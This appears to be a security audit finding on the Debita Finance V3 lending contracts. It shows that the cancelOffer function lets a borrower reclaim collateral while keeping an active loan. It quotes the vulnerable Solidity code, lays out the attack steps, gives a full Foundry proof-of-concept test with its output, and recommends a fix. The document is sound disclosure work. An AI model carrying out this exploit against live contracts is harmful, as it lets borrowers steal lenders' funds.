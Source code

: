 Furry Cloud Cod

High

# A malicious borrower can reclaim their collateral by calling the `DebitaBorrowOffer-Implementation::cancelOffer` function amidst an active loan

## Impact
### Summary 
The `DebitaBorrowOffer-Implementation::cancelOffer` function allows a borrower to cancel a borrow offer that they created earlier on. When a borrower calls the `DebitaBorrowOffer-Implementation::cancelOffer` function, their remaining collateral is transferred back to them excluding any fees they may have paid for the services they used.

However, the protocol does not check if the caller has any active loans and sends the balance of their collateral to them without checking. Thus, a borrower can reclaim thier collateral without repaying their debt.

### Vulnerability Details
This vulnerability exists because the `DebitaBorrowOffer-Implementation::cancelOffer` function does not check if the borrow order about to be cancelled has been issued any loans or not. This means that irrespective of whether a borrow order has received any loan amounts or not, it can be canceled and the borrower's collateral returned to them.

Here is a github link to the function in question https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaBorrowOffer-Implementation.sol#L188-L218 and can be view in the snippet below

```javascript
    function cancelOffer() public onlyOwner nonReentrant {
        BorrowInfo memory m_borrowInformation = getBorrowInfo();
        uint availableAmount = m_borrowInformation.availableAmount;
        require(availableAmount > 0, "No available amount");
        // set available amount to 0
        // set isActive to false
        borrowInformation.availableAmount = 0;
        isActive = false;


        // transfer collateral back to owner
        if (m_borrowInformation.isNFT) {
            if (m_borrowInformation.availableAmount > 0) {
                IERC721(m_borrowInformation.collateral).transferFrom(
                    address(this),
                    msg.sender,
                    m_borrowInformation.receiptID
                );
            }
        } else {
            SafeERC20.safeTransfer(
                IERC20(m_borrowInformation.collateral),
                msg.sender,
                availableAmount
            );
        }


        // emit canceled event on factory


        IDBOFactory(factoryContract).deleteBorrowOrder(address(this));
        IDBOFactory(factoryContract).emitDelete(address(this));
    }
```


### Impact
A borrower can call the `DebitaBorrowOffer-Implementation::cancelOffer` function after they have received a loan and reclaim their collateral without repaying their debt. This way, a malicious borrowr can steal from the protocol and all they loose is the transaction fees they paid. Thus, the lenders lose their funds which they made available on the protocol for lending.

## Proof of Concept
1. A malicious borrower sees that there are lendorders available on the protocol.
2. The maalicious borrower creates a borrow order
3. The malicious borrower then calls the `DebitaV3Aggregator::matchOffersV3` function so that they receive the loans they seek as specified in their borrow order
4. The malicious borrower now calls the `DebitaBorrowOffer-Implementation::cancelOffer` function and reclaims their collateral without repaying the debt the owe from the loan they received. Thus the malicious borrower now have their collateral back  and the asset they borrowed in their possession.
5. Furthermore, we compare the malicious borrower and an honest borrower and see that the malicious borrower end up with more tokens than the honest borrower though they created a borrow order with same parameters. Thus demonstrating that malicious borrowers are rewarded more by the protocol than honest borrowers.

<details>
<summary>PoC</summary>

We modify the `setUp` function in the `MultiplePrinciples.t.sol` so that the lend orders can fulfil more than one borrow offer in the following manner:

```javascript
.
.
.
AEROContract.approve(address(DLOFactoryContract), 10e18); // @audit-note changed from 5e18 to 10e18
ratioLenders[0] = 5e17;

address lendOrderAddress = DLOFactoryContract.createLendOrder(
    false,
    oraclesActivatedLenders,
    false,
    ltvsLenders,
    1350,
    8640000,
    86400,
    acceptedCollaterals,
    AERO,
    oraclesCollateral,
    ratioLenders,
    address(0x0),
    10e18 // @audit-note changed from 5e18 to 10e18
);

vm.startPrank(secondLender);
wETHContract.approve(address(DLOFactoryContract), 10e18); // @audit-note changed from 5e18 to 10e18
ratioLenders[0] = 4e17;
address SecondlendOrderAddress = DLOFactoryContract.createLendOrder(
    false,
    oraclesActivatedLenders,
    false,
    ltvsLenders,
    1000,
    9640000,
    86400,
    acceptedCollaterals,
    wETH,
    oraclesCollateral,
    ratioLenders,
    address(0x0),
    10e18 // @audit-note changed from 5e18 to 10e18
);
vm.stopPrank();

vm.startPrank(thirdLender);
wETHContract.approve(address(DLOFactoryContract), 10e18); // @audit-note changed from 5e18 to 10e18
ratioLenders[0] = 1e17;
address ThirdlendOrderAddress = DLOFactoryContract.createLendOrder(
    false,
    oraclesActivatedLenders,
    false,
    ltvsLenders,
    1000,
    9640000,
    86400,
    acceptedCollaterals,
    wETH,
    oraclesCollateral,
    ratioLenders,
    address(0x0),
    10e18 // @audit-note changed from 5e18 to 10e18
);
vm.stopPrank();
.
.
.
```

Now, place the following code into `MultiplePrinciples.t.sol`.

```javascript
  function test_SpomariaPoC_BorrowerCanDeleteBorrowOrderWithAnActiveLoan() public {

        address malBorrower = makeAddr("attacker");

        deal(AERO, malBorrower, 1000e18, false);
        deal(USDC, malBorrower, 1000e18, false);

        uint256 malBorrowerAEROInitBal = IERC20(AERO).balanceOf(malBorrower);
        uint256 malBorrowerUSDCInitBal = IERC20(USDC).balanceOf(malBorrower);
        uint256 malBorrowerWETHInitBal = IERC20(wETH).balanceOf(malBorrower);

        assertEq(malBorrowerAEROInitBal, 1000e18);
        assertEq(malBorrowerUSDCInitBal, 1000e18);
        assertEq(malBorrowerWETHInitBal, 0);

        uint256 borrowerAEROInitBal = IERC20(AERO).balanceOf(borrower);
        uint256 borrowerUSDCInitBal = IERC20(USDC).balanceOf(borrower);
        uint256 borrowerWETHInitBal = IERC20(wETH).balanceOf(borrower);


        address malBorrowOrderAddress = matchOffers_Spomaria(malBorrower);
        address borrowOrderAddress = matchOffers_Spomaria(borrower);

        uint256 malBorrowerAEROMidBal = IERC20(AERO).balanceOf(malBorrower);
        uint256 malBorrowerUSDCMidBal = IERC20(USDC).balanceOf(malBorrower);
        uint256 malBorrowerWETHMidBal = IERC20(wETH).balanceOf(malBorrower);

        assertGt(malBorrowerWETHMidBal, malBorrowerWETHInitBal);
        assertGt(malBorrowerAEROMidBal, malBorrowerAEROInitBal);
        assertEq(malBorrowerUSDCMidBal, malBorrowerUSDCInitBal - 100e18);

        // now attacker deletes the borrow order after taking a loan
        vm.startPrank(malBorrower);
        DBOImplementation(malBorrowOrderAddress).cancelOffer();
        vm.stopPrank();

        uint256 malBorrowerAEROFinalBal = IERC20(AERO).balanceOf(malBorrower);
        uint256 malBorrowerUSDCFinalBal = IERC20(USDC).balanceOf(malBorrower);
        uint256 malBorrowerWETHFinalBal = IERC20(wETH).balanceOf(malBorrower);

        assertGt(malBorrowerWETHFinalBal, malBorrowerWETHInitBal);
        assertGt(malBorrowerAEROFinalBal, malBorrowerAEROInitBal);
        assertGt(malBorrowerUSDCFinalBal, malBorrowerUSDCMidBal);   

        // let another borrower act honestly and see what their balance will be
        
        uint256 borrowerAEROMidBal = IERC20(AERO).balanceOf(borrower);
        uint256 borrowerUSDCMidBal = IERC20(USDC).balanceOf(borrower);
        uint256 borrowerWETHMidBal = IERC20(wETH).balanceOf(borrower);

        assertGt(borrowerWETHMidBal, borrowerWETHInitBal);
        assertGt(borrowerAEROMidBal, borrowerAEROInitBal);
        assertEq(borrowerUSDCMidBal, borrowerUSDCInitBal - 100e18);

        DebitaV3Loan.LoanData memory loanData = DebitaV3LoanContract
            .getLoanData();
        uint[] memory indexes = allDynamicData.getDynamicUintArray(3);
        indexes[0] = 0;
        indexes[1] = 1;
        indexes[2] = 2;

        // uint[] memory indexs = allDynamicData.getDynamicUintArray(1);
        // indexes[0] = 2;

        vm.startPrank(borrower);
        deal(wETH, borrower, 6e18, false);
        AEROContract.approve(address(DebitaV3LoanContract), 10e18);
        wETHContract.approve(address(DebitaV3LoanContract), 10e18);

        vm.warp(block.timestamp + 6400); 
        vm.roll(10);
        DebitaV3LoanContract.payDebt(indexes);
        DebitaV3LoanContract.claimCollateralAsBorrower(indexes);
        vm.stopPrank();

        uint256 borrowerAEROFinalBal = IERC20(AERO).balanceOf(borrower);
        uint256 borrowerUSDCFinalBal = IERC20(USDC).balanceOf(borrower);
        uint256 borrowerWETHFinalBal = IERC20(wETH).balanceOf(borrower);

        assertGt(borrowerWETHFinalBal, borrowerWETHInitBal);
        assertLt(borrowerAEROFinalBal, borrowerAEROInitBal);
        assertGt(borrowerUSDCFinalBal, borrowerUSDCMidBal);   

        // assert that the malicious user has more tokens than the honest user
        assertGt(malBorrowerWETHFinalBal, borrowerWETHFinalBal);
        assertGt(malBorrowerAEROFinalBal, borrowerAEROFinalBal);
        assertGt(malBorrowerUSDCFinalBal, borrowerUSDCFinalBal);

    }

    function matchOffers_Spomaria(address _addr) public returns(address _borrowOrderAddr){
        address[] memory lendOrders = allDynamicData.getDynamicAddressArray(3);
        uint[] memory lendAmountPerOrder = allDynamicData.getDynamicUintArray(
            3
        );
        uint[] memory porcentageOfRatioPerLendOrder = allDynamicData
            .getDynamicUintArray(3);
        address[] memory principles = allDynamicData.getDynamicAddressArray(2);
        uint[] memory indexForPrinciple_BorrowOrder = allDynamicData
            .getDynamicUintArray(3);
        uint[] memory indexForCollateral_LendOrder = allDynamicData
            .getDynamicUintArray(3);
        uint[] memory indexPrinciple_LendOrder = allDynamicData
            .getDynamicUintArray(3);

        lendOrders[0] = address(LendOrder);
        lendAmountPerOrder[0] = 25e17;
        porcentageOfRatioPerLendOrder[0] = 10000;
        principles[0] = AERO;
        principles[1] = wETH;

        // 0.1e18 --> 1e18 collateral

        lendOrders[1] = address(SecondLendOrder);
        lendAmountPerOrder[1] = 38e17;
        porcentageOfRatioPerLendOrder[1] = 10000;

        indexForPrinciple_BorrowOrder[1] = 1;
        indexPrinciple_LendOrder[1] = 1;

        lendOrders[2] = address(ThirdLendOrder);
        lendAmountPerOrder[2] = 20e17;
        porcentageOfRatioPerLendOrder[2] = 10000;

        indexForPrinciple_BorrowOrder[2] = 1;
        indexPrinciple_LendOrder[2] = 1;
        
        vm.startPrank(_addr);

        IERC20(AERO).approve(address(DBOFactoryContract), 100e18);

        bool[] memory oraclesActivated = allDynamicData.getDynamicBoolArray(2);
        uint[] memory ltvs = allDynamicData.getDynamicUintArray(2);
        uint[] memory ratio = allDynamicData.getDynamicUintArray(2);
        uint[] memory ratioLenders = allDynamicData.getDynamicUintArray(1);
        uint[] memory ltvsLenders = allDynamicData.getDynamicUintArray(1);
        bool[] memory oraclesActivatedLenders = allDynamicData
            .getDynamicBoolArray(1);

        address[] memory acceptedPrinciples = allDynamicData
            .getDynamicAddressArray(2);
        address[] memory acceptedCollaterals = allDynamicData
            .getDynamicAddressArray(1);
        address[] memory oraclesCollateral = allDynamicData
            .getDynamicAddressArray(1);
        address[] memory oraclesPrinciples = allDynamicData
            .getDynamicAddressArray(2);

        ratio[0] = 5e17;
        acceptedPrinciples[0] = AERO;
        acceptedCollaterals[0] = USDC;
        oraclesActivated[0] = false;

        ratio[1] = 2e17;
        acceptedPrinciples[1] = wETH;
        oraclesActivated[1] = false;

        USDCContract.approve(address(DBOFactoryContract), 101e18);
        
        _borrowOrderAddr = DBOFactoryContract.createBorrowOrder(
            oraclesActivated,
            ltvs,
            1400,
            8640000,
            acceptedPrinciples,
            USDC,
            false,
            0,
            oraclesPrinciples,
            ratio,
            address(0x0),
            100e18
        );

        
        address loan = DebitaV3AggregatorContract.matchOffersV3(
            lendOrders,
            lendAmountPerOrder,
            porcentageOfRatioPerLendOrder,
            address(_borrowOrderAddr),
            principles,
            indexForPrinciple_BorrowOrder,
            indexForCollateral_LendOrder,
            indexPrinciple_LendOrder
        );

        
        vm.stopPrank();

        DebitaV3LoanContract = DebitaV3Loan(loan);
    } 
```

Now run `forge test --match-test test_SpomariaPoC_BorrowerCanDeleteBorrowOrderWithAnActiveLoan -vvvv`

Output:
```javascript
.
.
.
    ├─ [563] ERC20Mock::balanceOf(SHA-256: [0x0000000000000000000000000000000000000002]) [staticcall]
    │   └─ ← [Return] 184109589041095891 [1.841e17]
    ├─ [0] VM::assertGt(184109589041095891 [1.841e17], 0) [staticcall]
    │   └─ ← [Return] 
    ├─ [0] VM::assertLt(999973753424657534247 [9.999e20], 1000000000000000000000 [1e21]) [staticcall]
    │   └─ ← [Return] 
    ├─ [0] VM::assertGt(894500000000000000000 [8.945e20], 860000000000000000000 [8.6e20]) [staticcall]
    │   └─ ← [Return] 
    ├─ [0] VM::assertGt(5760560000000000000 [5.76e18], 184109589041095891 [1.841e17]) [staticcall]
    │   └─ ← [Return] 
    ├─ [0] VM::assertGt(1002483000000000000000 [1.002e21], 999973753424657534247 [9.999e20]) [staticcall]
    │   └─ ← [Return] 
    ├─ [0] VM::assertGt(965500000000000000000 [9.655e20], 894500000000000000000 [8.945e20]) [staticcall]
    │   └─ ← [Return] 
    └─ ← [Return] 

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 67.78ms (25.52ms CPU time)

Ran 1 test suite in 1.65s (67.78ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

</details>

## Tools Used

Manual Review and Foundry


## Recommended Mitigation Steps

Consider modifying the `DebitaBorrowOffer-Implementation::cancelOffer` function to check whether a borrow order has received any loans and revert accordingly. The `DebitaBorrowOffer-Implementation::cancelOffer` function should only be callable if the borrow order has not been matched against other loan orders. This way, a borrow must repay their loans or have their collaterals siezed by the protocol.
